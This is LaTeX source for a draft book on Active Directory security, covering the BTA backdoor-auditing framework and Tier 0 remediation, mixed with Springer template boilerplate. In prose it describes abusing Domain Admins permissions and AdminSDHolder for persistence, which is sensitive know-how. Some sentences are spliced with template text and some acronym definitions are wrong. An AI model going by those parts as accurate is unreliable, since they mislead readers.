    
\includegraphics[width=0.75\linewidth]{domainstructure.png}
    \caption{Domain structure}
\end{figure}

\textbf{Container:}
Container objects hold other objects and have a defined place in the directory subtree hierarchical model.

\textbf{Leaf:}
Leaf objects do not contain other objects and are found at the end of the subtree hierarchy.

This book discusses the various aspects of Active Directory (AD) security, a critical component for managing user accounts and identities and for establishing trust and integrity through the use of restricted access management controls to resources in Windows Active Directory Server environments. This book covers attack vectors and vulnerabilities, such as privilege escalation through techniques such as Kerberoasting, Pass-the-Hash (PtH), and exploiting misconfigurations in services like Active Directory Certificate Services (AD CS) and Group Policy Objects (GPOs), emphasizing the role of tools like Mimikatz, PowerView, and BloodHound in these sophisticated cyberattacks. The book also highlights defensive strategies for defenders and blue teams, including implementing a tiered access model, least privilege, using Protected Administrative Workstations (PAWs) and Secured Administrative Workstations (SAWs), continuous monitoring for specific Windows Event Log IDs to pinpoint malicious activities, and the importance of patch management and regular penetration testing and security vulnerability assessments to secure the AD environment. Furthermore, the book goes into detail covering DNS-specific attacks like DNS Cache Poisoning and flooding, to showcase the importance and necessity of DNS security in protecting the overall AD network infrastructure.


\abstract{No more than 200 words.}

\section{Introduction to Active Directory Backdoors: Myth or Reality?}

Active Directory (AD) lies at the heart of most enterprise identity infrastructures, acting as the cornerstone of authentication, authorization, and policy enforcement across Windows-based networks. It manages users, computers, and services, governs access to shared resources on a network, and enforces organizational security policies across domains and enterprises. Because of its critical role in controlling who or what can access resources within an enterprise, AD represents a prime, juicy target for attackers. Compromising AD often equates to gaining control of the entire environment. From an attacker's view, it offers a single point of elevation. From a defender's viewpoint, it presents a complex and sprawling surface that is difficult to of your chapter content conformable to the Springer Nature layout.
\section{Context and Motivation}
In real-world enterprise AD environments, security teams - including systems administrators, incident responders, penetration testers, ethical hackers, and auditors - face a common challenge: ensuring the confidentiality, integrity, and availability of Active Directory in the face of growing complexity and increasingly advanced threat actors. AD is not only large, but also dynamic; users and permissions change constantly, and many of the risks lie in subtle or long-standing configurations rather than in 
\tableofcontents
%%%%%%%%%%%%%%%%%%%%%%acronym.tex%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% sample list of acronyms
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer %%%%%%%%%%%%%%%%%%%%%%%%%%

\extrachap{Abbreviations and Acronyms}

This list contains commonly used abbreviations and acronyms related to cybersecurity, information, system, and network security, along with their generally accepted or preferred definitions. It is intended to serve as a practical reference for IT professionals, cybersecurity practitioners, and others working within system and network security domains.

It is important to note that the spelling, capitalization, and definitions of abbreviations and acronyms can vary significantly. This variation is understandable: while certain terms - such as \textbf{WWW} - have a universally recognized meaning within the field, others - like \textbf{IA} or \textbf{MAC} - may have multiple valid interpretations depending on the context. Some acronyms bear little resemblance to the words they represent, such as \textbf{TMOVS} \textit{(Modes of Operation Validation System for the Triple DES Algorithm)}, while others feature unusual capitalization or spelling, such as \textbf{ebXML} \textit{(Electronic Business using eXtensible Markup Language)} or \textbf{OECD} \textit{(Organization for Economic Co-operation and Development)}. These inconsistencies can lead to misinterpretation or confusion when definitions are inaccurately presented or inconsistently applied.

This list is designed to reduce such ambiguity by offering clear, standardized definitions of frequently encountered terms. It does not aim to be exhaustive, nor does it include every abbreviation or acronym found contained in system and network security literature.

The following conventions were used in preparing this list:

\begin{itemize}
    \item Abbreviations and acronyms generally appear in \textbf{uppercase letters}, though exceptions exist - e.g., \textbf{m} (meter) and \textbf{dBm} (decibels referenced to one milliwatt).
    \item If multiple meanings exist for the same abbreviation or acronym, the term is \textit{italicized and repeated} for each entry. Definitions are listed alphabetically.
\end{itemize}

    
\begin{description}[CABR]
\item[A]{Address Resource Record Type}
\item[A\&A]{Assessment and Authorization}
\item[A-GPS]{Assisted Global Positioning System}
\item[AA]{Attribute Authority}
\item[AAA]{Authentication, Authorization, Accountability}
\item[AAAA]{Authentication, Authorization, Accountability, Availability}
\item[AAAK]{Authentication, Authorization, and Accounting Key}
\item[AACS]{Authenticated Access Control Security}
\item[ABAC]{Attribute-based Access Control}
\item[ABM]{Asset Baseline Monitor | Management}
\item[ABR]{Area Border Router}
\item[ACAS]{Assured Compliance Assessment Solution}
\item[ACE]{Access Control Entry}
\item[ACK]{Acknowledgment}
\item[ACL]{Access Control List}
\item[ACM]{Association for Computing Machinery}
\item[ACO]{Authenticated Cipher Offset}
\item[ACS]{Access Control Security}
\item[AD]{Active Directory}
\item[AD CS]{Active Directory Certificate Services}
\item[AD DS]{Active Directory Domain Services}
\item[AD FS]{Active Directory Federated Services}
\item[ADUC]{Active Directory Users and Computers}
\item[ADP]{Automated Data Processing}
\item[ADS]{Alternate Data Stream}
\item[ADSL]{Asymmetric Digital Subscriber Line}
\item[AES]{Advanced Encryption Standard}
\item[AFL]{American Fuzzing Lop}
\item[AFH]{Adaptive Frequency Hopping}
\item[AFI]{Air Force Installation}
\item[AFOSI]{Air Force Office of Special Investigation}
\item[AFPD]{Air Force Policy Directive}
\item[AH]{Authentication Header}
\item[AIDC]{Automatic Identification and Data Capture}
\item[AIMS]{Automated Infrastructure Management System}
\item[AIS]{Automated Information System}
\item[AIT]{Automatic Identification Technology}
\item[AJAX]{Asynchronous JavaScript and XML}
\item[AK]{Authorization Key}
\item[AKID]{Authorization Key Identifier}
\item[AKM]{Authentication Key Management}
\item[ALG]{Application Layer Gateway}
\item[ALCON]{All Concerned}
\item[AMIDS]{Audit Monitoring and Intrusion Detection System}
\item[ANSI]{American National Standards Institute}
\item[AO]{Authorizing Official}
\item[AP]{Access Point}
\item[APC]{Angle Polished Connector}
\item[API]{Application Programming Interface}
\item[APIPA]{Automatic Private Internet Protocol Addressing}
\item[APK]{Android Package}
\item[APL]{Application Programming Language}
\item[APT]{Advanced Persistent Threat}
\item[APWG]{Anti-Phishing Working Group}
\item[ARIN]{American Registry for Internet Numbers}
\item[ARP]{Address Resolution Protocol}
\item[ARPA]{Advanced Research Projects Agency}
\item[ARPANet]{Advanced Research Projects Agency Network}
\item[ASC]{Anti-Spyware Coalition}
\item[ASC X9]{Accredited Standards Committee X9}
\item[AS]{Autonomous System}
\item[ASIC]{Application Specific Integrated Circuit}
\item[ASN]{Autonomous System Number}
\item[ASN.1]{Abstract Syntax Notation One}
\item[ASP]{Active Server Pages}
\item[ASIMS]{Automated Security Incident Measuring System}
\item[ASLR]{Address Space Layout Randomization}
\item[ATA]{Advanced Technology Attachment}
\item[ATC]{Authorization to Connect}
\item[ATD]{Authorization Termination Date}
\item[ATO]{Authorization to Operate}
\item[ATM][Asynchronous Transfer Mode]
\item[ATT\&CK]{Adversarial Tactics, Techniques \& Common Knowledge}
\item[AU]{Audit}
\item[AUI]{Attachment Unit Interface}
\item[AUP]{Acceptable Use Policy}
\item[AV]{Antivirus}
\item[AVIX]{Anti-Virus Information Exchange Network}
\item[AVP]{Attribute-Value Pair}
\item[AWS]{Amazon Web Services}
\item[AXFR]{Authoritative Zone Transfer}
\item[AZ] {Availability Zone}
\item[] % empty label
\vspace*{2em}
%\noindent\hspace*{-1.3em}\makebox[0pt][l]{\textbf{\LARGE B}}\null\\[1em]
\item[BCP] Business Continuity Plan
\item[BCS] Business Connectivity Services
\item[BDR]{Backup Designated Router}
\item[BERT]{Bit Error Rate Test}
\item[BGP]{Border Gateway Protocol}
\item[BLE]{Bluetooth Low Energy}
\item[BNC]{Bayonet Nut Connector} 
\item[BootP]{Boot Protocol}
\item[BPDU]{Bridge Protocol Data Unit}
\item[BRI]{Basic Rate Interface}
\item[BSSID]{Basic Service Set Identifier}
\item[BYOD]{Bring Your Own Device}

\item[C]
\item[CAM]{Channel Access Method}
    \item \textit{[CAM]{Content Addressable Memory}}
\item[CARP]{Common Address Redundancy Protocol}
\item[CAT]{Category (cable)}
\item[CCTV]{Closed Circuit Television}
\item[CDMA]{Code Division Multiple Access}
\item[CDMA/CD]{Carrier Sense Multiple Access / Collision Detection}
\item[CHAP]{Challenge Handshake Authentication Protocol}
\item[CIDR]{Classless Inter-Domain Routing}
\item[CIFS]{Common Internet File System | Services}
\item[CLI]{Command Line Interface}
\item[CNAME]{Canonical Name}
\item[COOP]{Continuity of Operations}
    \item \textit{[COOP]{Concurrent Object-Oriented Programming}}
\item[COS]{Class of Service}
\item[CPU]{Central Processing Unit}
\item[CRAM]{Challenge-Response Authentication Mechanism - Message Digest 5}
\item[CRC]{Cyclic Redundancy Check}
\item[CSMA/CA]{Carrier Sense Multiple Access/Collision Avoidance}
\item[CSU]{Channel Service Unit}
\item[CWDM]{Course Wave Division Multiplexing}

\item[D]
\item[dB]{Decibel}
\item[DCS]{Distributed Computer System}
\item[DDoS]{Distributed Denial of Service}
\item[DHCP]{Dynamic Host Configuration Protocol}
\



















\end{description}

\mainmatter
% Chapters
%%%%%%%%%%%%%%%%%%%%%part.tex%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% 
% sample part title
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer %%%%%%%%%%%%%%%%%%%%%%%%%%

\begin{partbacktext}
\part{Part Title}
\noindent Use the template \emph{part.tex} together with the document class SVMono (monograph-type books) or SVMult (edited books) to style your part title page and, if desired, a short introductory text (maximum one page) on its verso page.

\end{partbacktext}
\include{mainmatter/awesomebox}
%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%

%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}

\chapter{Chapter Heading}
\label{ch1-intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\abstract*{Each chapter should be preceded by an abstract (no more than 200 words) that summarizes the content. The abstract will appear \textit{online} at \url{www.SpringerLink.com} and be available with unrestricted access. This allows unregistered users to read the abstract as a teaser for the complete chapter.
Please use the 'starred' version of the new \texttt{abstract} command for typesetting the text of the online abstracts (cf. source file of this chapter template \texttt{abstract}) and include them with the source files of your manuscript. Use the plain \texttt{abstract} command if the abstract is also to appear in the printed version of the book.}

\abstract{Each chapter should be preceded by an abstract (no more than 200 words) that summarizes the content. The abstract will appear \textit{online} at \url{www.SpringerLink.com} and be available with unrestricted access. This allows unregistered users to read the abstract as a teaser for the complete chapter.}

\section{Section Heading}
%\label{sec:1}
Use the template \emph{chapter.tex} together with the document class SVMono (monograph-type books) or SVMult (edited books) to style the various elements of your chapter content conformable to the Springer Nature layout.

\section{Section Heading}
%\label{sec:2}
% Always give a unique label
% and use \ref{<label>} for cross-references
% and \cite{<label>} for bibliographic references
% use \sectionmark{}
% to alter or adjust the section heading in the running head

Instead of simply listing headings of different levels we recommend to let every heading be followed by at least a short passage of text. Furthermore, please use the \LaTeX\ automatism for all your cross-references and citations.

This chapter explores the reality of backdoors in Microsoft Active Directory environments and introduces \textit{BTA (Backdoor Tracing and Analysis)}, an open-source framework developed by Airbus Group Innovations. Active Directory is a critical component in enterprise identity infrastructures, making it a high-valued target for attackers and a difficult system to audit. The chapter demonstrates how legitimate features such as Domain Admin group permissions or AdminSDHolder mechanisms can be abused for persistent access and privilege escalation. It outlines real-world case studies, explains the challenges of manual auditing and security control spot-checking, and shows how BTA enables effective offline analysis of NTDS.dit files. With modules for importing, mining, and comparing AD states, BTA empowers defenders and security teams to identify misconfigurations, backdoors, and bad practices that traditional tools often miss or overlook. The chapter concludes with insights from field audits and highlights BTA's reproducibility, automation, and practical benefits for red and blue teams alike.

\section{Introduction to Active Directory Backdoors: Myth or Reality?}

Active Directory (AD) lies at the heart of most enterprise identity infrastructures, acting as the cornerstone of authentication, authorization, and policy enforcement across Windows-based networks. It manages users, computers, and services, governs access to shared resources on a network, and enforces organizational security policies across domains and enterprises. Because of its critical role in controlling who or what can access resources within an enterprise, AD represents a prime, juicy target for attackers. Compromising AD often equates to gaining control of the entire environment. From an attacker's view, it offers a single point of elevation. From a defender's viewpoint, it presents a complex and sprawling surface that is difficult to fully understand, let alone secure entirely.

In this chapter, we explore the reality of backdoors in Active Directory environments. We introduce \textbf{BTA (Backdoor Tracing and Analysis)}, an open-source framework developed to help security professionals identify subtle misconfigurations, hidden permissions, and privilege abuse that may persist unnoticed within an AD deployment. These issues are often overlooked by traditional security tools but can be exploited for long-term access and lateral movement within the network. BTA provides security practitioners with a repeatable and deterministic method to audit AD data, making it easier to spot backdoors that rely on native, legitimate functionality abused in malicious ways.

\section{Context and Motivation}
%\label{sec:3}
% Always give a unique label
% and use \ref{<label>} for cross-references
% and \cite{<label>} for bibliographic references
% use \sectionmark{}
% to alter or adjust the section heading in the running head

In real-world enterprise AD environments, security teams — including systems administrators, incident responders, penetration testers, ethical hackers, and auditors — face a common challenge: ensuring the confidentiality, integrity, and availability of Active Directory in the face of growing complexity and increasingly advanced threat actors. AD is not only large but also dynamic; users and permissions change constantly, and many of the risks lie in subtle or long-standing configurations rather than in overt malware or intrusions.

Defenders and security professionals must often sift through thousands of users, groups, and permissions, looking for signs of privilege abuse, security control tampering, inappropriate delegations, or dormant attack vectors, such as forgotten active user accounts that should have been disabled or deleted the moment the user was escorted off-premises. In many organizations, this work is often done manually, using a mix of graphical tools and ad hoc scripts. Unfortunately, this approach is not scalable and, sometimes, not feasible. It is slow, time-consuming, error-prone, and difficult to reproduce — particularly when trying to compare the state of AD over time for security baselining purposes or during an incident response investigation.

BTA was developed to bridge this gap. It automates deep inspection of AD data extracted from Domain Controllers, providing consistent outputs and facilitating offline analysis. Its goal is to simplify the process of identifying common AD abuses and to empower defenders to spot persistent misconfigurations before attackers do.

\section{Backdoor Tracing Analysis (BTA): Understanding the Threat: Threat Hunting Backdoors}
%\label{sec:4}

To understand how attackers can abuse AD, we examine two realistic and commonly exploited backdoor mechanisms: manipulation of the Domain Admins group and the misuse of the AdminSDHolder object. These examples are not hypothetical — they are based on real-world abuse patterns observed during red team exercises and post-compromise investigations.

\section{Backdoor 1: Domain Admin Group Manipulation}
%\label{sec:5}

The Domain Admins group is one of the most powerful entities in an Active Directory domain. Its members effectively have full domain control over domain-wide resources. As such, it is a critical group that needs continuous monitoring, should be tightly and strictly administered and maintained, and rarely changed. Yet attackers often target it directly or indirectly to establish initial access and persistence.

One popular technique involves obtaining the ability to \textbf{add or remove members} from the group. This does not always require being a Domain Admin initially. An attacker who compromises an account with GenericAll access to the Domain Admins group object can silently add another user, service account, or even a malicious script to the group without being noticed by traditional security tools and detection mechanisms.

In some instances, attackers don't just add users — they embed (and sometimes hard-code) permissions that allow them to re-add accounts later, even after an administrator believes they have removed the threat completely. These changes may be hidden within nested groups or disguised through indirect delegation.

Another avenue involves assigning extended rights to a low-privileged user that enables \textbf{password resets or permission changes} on privileged accounts. For example, if a user has ResetPassword rights on a Domain Admin account, they can effectively assume that identity at will.

These subtle forms of access manipulation are difficult to detect manually. The key challenge lies in identifying \textbf{who has effective control over the group} — not just who appears as a member. That requires a full audit of the group's security descriptor, including inherited and delegated permissions, and a recursive understanding of group nesting in Active Directory.

Please note that the first line of text that follows a heading is not indented, whereas the first lines of all subsequent paragraphs are.

To address these challenges, BTA provides automated miners that parse the security metadata from the NTDS.dit database, allowing defenders to easily list group memberships, access rights, and historical changes to privileged groups. Using BTA, analysts can quickly answer questions such as:

By surfacing these insights, BTA empowers defenders to spot backdoors that may otherwise remain hidden in plain sight.

\chapter{Active Directory Tier 0 Security Framework: Cyberattack Prevention and Protection Against Advanced Threats}

\abstract{The Active Directory (AD) Tier 0 Security Framework is a critical component in the defense-in-depth strategy of any enterprise network. Tier 0 assets—Domain Controllers (DCs), domain-joined privileged accounts, and the AD schema itself—represent the crown jewels of an organization’s identity infrastructure. Their compromise leads to complete domain dominance and long-term persistence by adversaries.
This work presents a comprehensive approach that defender's can use to securing Tier 0 by integrating hardening best practices, identity segmentation, Privileged Access Management (PAM), and continuous monitoring. Emphasis is placed on mitigating lateral movement, credential theft, and Advanced Persistent Threats (APTs) through the application of the Principle of Least Privilege (PoLP), Just-in-Time (JIT) access, and secure administrative workflows.
Additionally, the framework addresses attacker techniques such as Pass-the-Hash (PtH), Golden Ticket, DCShadow, and DCSync, mapping each to specific mitigation, detection, protection, and prevention strategies. By implementing the Tier 0 Security Framework, defenders can significantly reduce an organization's attack surface and increase its resilience against both commodity malware and nation-state actors targeting their Active Directory (AD) infrastructure.}

\section{Introduction to Active Directory Tier 0: Rebuilding Trust and Post-Breach Remediation}
This chapter outlines a strategic and technical framework for executing remediation operations in the aftermath of a significant cybersecurity incident affecting Active Directory (AD) infrastructure. Specifically, it focuses on the processes required to regain control over a compromised identity and directory infrastructure and restore secure, functional operations across Tier 0 assets.

Remediation refers to the act of reclaiming authority over a compromised environment and reconstructing its core trust components. This includes, but is not limited to, Domain Controllers, privileged identities, and related infrastructure dependencies that constitute the backbone of \textit{Identity and Access Management (IAM)}.

The guidance provided within serves as part of the broader technical methodology that supports AD remediation and hardening. It offers a foundational reference for defenders and security teams charged with orchestrating recovery operations-particularly those tasked with rebuilding the trusted core of Active Directory in a post-breach environment.

{\emergencystretch=3em
%Structured around the \textit{Containment\-/Eviction\-/Eradication\-/Rebuild} (CEER) model, ...
}

This content is designed for defenders, white hat hackers, and blue team operators, incident response engineers, and Active Directory administrators responsible for technical execution during crisis recovery operations. While strategic in nature, its primary focus is operational-providing actionable and meaningful direction for secure reconstruction in high-risk Active Directory environments.

\section{Strategic Scenarios for Active Directory Tier 0 Remediation}
Before diving into specific remediation scenarios, it is first important to contextualize the role of Tier 0 in the broader Active Directory security architecture. Tier 0 assets-Domain Controllers, Domain Admin accounts, and other privileged information systems-represent the most critical components of any identity infrastructure. As such, their compromise can result in full domain takeover. The following scenarios are designed to address common security gaps, misconfigurations, and legacy design flaws, each providing the reader with a practical blueprint for understanding how to proactively and aggressively defend and reclaim control over Tier 0 resources. Whether you are implementing these strategies proactively or as part of an incident response effort, they offer actionable steps rooted in real-world defensive security practices.

\section{Objectives and Operational Context}
This chapter establishes a practical framework for conducting Tier 0 remediation operations following a security breach, aligning with three distinct strategic scenarios that guide the broader recovery processes.

\subsection{Scenario 1: Rapid Restoration of Mission-Critical Services}
\begin{itemize}
    \item Prioritizes immediate business continuity by restoring mission-critical and business imperative systems while managing residual risk.
    \item Assumes that Tier 0 assets may be partially compromised but focuses more on restoring service availability with controlled exposure.
    \item Utilizes containment and eradication strategies and compensating controls to enable safe operations while full remediation efforts proceed in parallel.
\end{itemize}

\subsection{Scenario 2: Regaining Full Control Over the Information System (IS)}
\begin{itemize}
    \item Focuses on neutralizing the attacker's toehold and reasserting authoritative control over Active Directory (AD) and related Tier 0 assets.
    \item Involves the re-establishment of broken trust boundaries, reconfiguring privileged access pathways, and verifying and validating the integrity of critical authentication infrastructures.
\end{itemize}

\subsection{Scenario 3: Building a Long-Term Foundation for Secure IT Operations}
\begin{itemize}
    \item Leverages the incident response effort to re-architect trust boundaries and implement lasting improvements to enterprise security.
    \item Emphasizes strategic planning, including the redesign of privileged access models, implementation of tiered administration levels, and the hardening of identity infrastructure information systems and assets.
    \item Shifts focus from tactical recovery to sustainable security posture management via security policy enforcements, continuous monitoring efforts, and operational cybersecurity maturity.
\end{itemize}

Depending on the scenario selected, specific remediation goals must be defined-particularly for the \textbf{safe eviction of adversaries} and the \textbf{re-establishment of Tier 0 trust boundaries.} The technical measures presented throughout this chapter are designed to meet those objectives.

This content supports defenders in aligning remediation activities with both short-terms business needs and long-term cybersecurity maturity. By anchoring technical efforts to clearly defined strategic outcomes, defenders will find themselves establishing and achieving both effective recovery and lasting resilience.

\section{Scope and Limitations}
This chapter is not intended to serve as a rigid, step-by-step remediation playbook. Each security incident presents unique variables-ranging from the attacker's \textit{Tactics, Techniques, and Procedures (TTPs)} to the organization's business priorities and operational constraints. Effective remediation requires contextual adaptation of the principles outlined herein.

While this chapter presents a comprehensive technical foundation for regaining control over compromised Tier 0 assets, it is imperative that defenders and organizations tailor their remediation road-map based on specific, situational intelligence applicable to the organizations risk landscape and network security posture requirements. The technical guidance should be preferably be interpreted through collaboration with Active Directory subject matter experts-whether internal, vendor-based, or third-party service providers.

Remedial efforts should never solely rely on ad hoc decisions, improvised foxes, or from the flawed notion of \textit{security through obscurity}-even when under pressure. Such missteps can worsen the situation at hand, further compromise information system integrity, and jeopardize long-term security objectives.

Finally, while this chapter focuses on addressing some of the most common attack vectors leveraged by adversaries in Active Directory environments, additional actions may be required to neutralize threats specific to the incident at hand. Defenders and security teams must remain adaptive and vigilant, supplementing the prescribed technical actions as needed to fully and safely evict the threat actor and restore control of the environment.

\section{Key Concepts: Tiered Administration Model}
A foundational principle in Active Directory (AD) security architecture is the \textbf{tiered administration model}, designed to mitigate unauthorized privilege escalation and reduce the blast radius of a compromised account or information system. Originally formalized by Microsoft, this model segments administrative control into three distinct tiers, each with a defined security boundary and role in the enterprise ecosystem.

\subsection{Tier 0-Red Tier: The Trusted Core}
Tier 0 encompasses the most critical assets within the identity infrastructure-resources that directly control authentication, authorization, and domain-wide security posture. This includes:

\begin{itemize}
    \item Domain Controllers (DCs)
    \item AD schema and configuration partitions
    \item Privileged security groups (e.g., Domain Admins (DAs), Enterprise Admins (EAs)
    \item \textit{Active Directory Federation Services (AD FS)
    \item Active Directory Domain Services (AD DS)}
    \item Tier 0 management systems and consoles
\end{itemize}

Because Tier 0 governs the entire identity and access control plane, it must be isolated from all other tiers. These assets are considered mission-critical because a compromise at this level enables total domain control. Access to Tier 0 should be highly restricted, isolated, and managed with the most rigorous security controls. In addition, only highly trusted authorized and certified personnel with a need to know and applicable business justification should interact with Tier 0 systems. A detailed methodology for identifying and scoping Tier 0 assets is provided in the appendix.

\subsection{Tier 1-Yellow Tier: Business-Critical Systems}
Tier 1 consists of systems that enforce or execute business logic-servers, applications, and services essential to organizational operations and workflows. While these information systems are vital, they do not directly control identity infrastructure. Examples include:
\begin{itemize}
    \item Line-of-Business (LOB) applications
    \item SQL and Application servers
    \item Middleware platforms
    \item \textit{Enterprise Resource Planning (ERP)} systems
\end{itemize}

Administrative accounts and tools for Tier 1 must never have access to Tier 0 resources, and vice versa.

\subsection{Tier 2-Green Tier: End-User Devices and Peripherals}
Tier 2 comprises user-facing endpoints and peripheral systems. These include:
\begin{itemize}
    \item User workstations and laptops
    \item Printers and scanners
    \item \textit{Mobile Device Management (MDM)} platforms
    \item \textit{Internet of Things (IoT)} or non-critical infrastructure
\end{itemize}

